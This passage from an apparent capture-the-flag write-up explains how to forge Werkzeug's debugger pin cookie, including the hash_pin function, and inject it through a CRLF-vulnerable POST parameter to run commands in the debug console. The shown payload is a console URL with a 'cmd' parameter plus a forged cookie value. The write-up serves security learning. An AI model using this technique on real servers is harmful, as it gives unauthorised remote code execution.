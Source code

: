 ```python
f"__wzd{hexdigest}={int(time.time())|{hash_pin(pin)}"
```

The cookie key name can be found in the same code that [generated](https://github.com/pallets/werkzeug/blob/master/src/werkzeug/debug/__init__.py#L188) the pin and the `hash_pin` function we extracted previously is:

```python
def hash_pin(pin):
    if isinstance(pin, text_type):
        pin = pin.encode('utf-8', 'replace')
    return hashlib.md5(pin + b'shittysalt').hexdigest()[:12]
```

Now all we need to do is just inject this cookie header into the `cook=` post parameter with some CRLF and make the final endpoint URL like this:

```text
/console?__debugger__=yes&cmd=print(1337)&frm=0&s=xOGQOt4mS7oDWEs8P5AT 
```

And the final cookie:

```http
__wzda68506e337031e3a0db6=1616590113|446c76978e3f
```

![The final payload](.gitbook/assets/image%20%282%29.png)

## Attributions

This challenge was solved along with @[makelariss](https://twitter.com/makelariss) and @[makelarisjr](https://twitter.com/makelarisjr) for our ctf team @[greunion](https://twitter.com/greunion_ctf).

### References
